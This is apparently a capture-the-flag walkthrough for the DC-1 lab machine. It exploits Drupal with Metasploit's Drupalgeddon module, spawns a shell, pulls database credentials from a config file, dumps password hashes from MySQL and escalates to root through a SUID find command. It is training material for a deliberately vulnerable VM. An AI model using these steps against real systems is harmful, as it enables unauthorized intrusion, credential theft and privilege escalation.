 # DC 1 Walkthrough




## Exploiting Drupalgeddon

```sh
msfconsole -q
search Drupalgeddon
use 0
set RHOSTS <target-ip>
exploit
```

## Gaining Shell Access

```sh
python -c "import pty; pty.spawn('/bin/bash')"
```

## Retrieving the First Flag

```sh
cat flag1.txt
```

**Flag1**
> Every good CMS needs a config file—and so do you.

---

## Finding Database Credentials

```php
array (
 'database' => 'drupaldb',
 'username' => 'dbuser',
 'password' => 'R0ck3t',
 'host' => 'localhost',
 'port' => '3306',
 'driver' => 'mysql',
 'prefix' => '',
)
```

**Flag 2**
> Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access).
> What can you do with these credentials?

---

## Accessing MySQL

```sh
mysql -u dbuser -pR0ck3t -h localhost
```

### Extracting Hashes

```sh
SELECT name, pass FROM users;
```

```
admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg
```

---

## Navigating to Home Directory

```sh
cd /home
```

```sh
cat flag4
```

**flag4**
> Can you use this same method to find or access the flag in root?
> Probably. But perhaps it's not that easy. Or maybe it is?

---

```sh
find / -perm -u=s 2>/dev/null
find /dev -name null -exec /bin/bash \;
## Accessing the Root Directory
cd /root
cat thefinalflag.txt
```
---

## Final Flag

**Congratulations!**

> Well done!
> Hopefully you've enjoyed this and learned some new skills.
> You can let me know what you thought of this little journey by contacting me via Twitter - @DCAU7

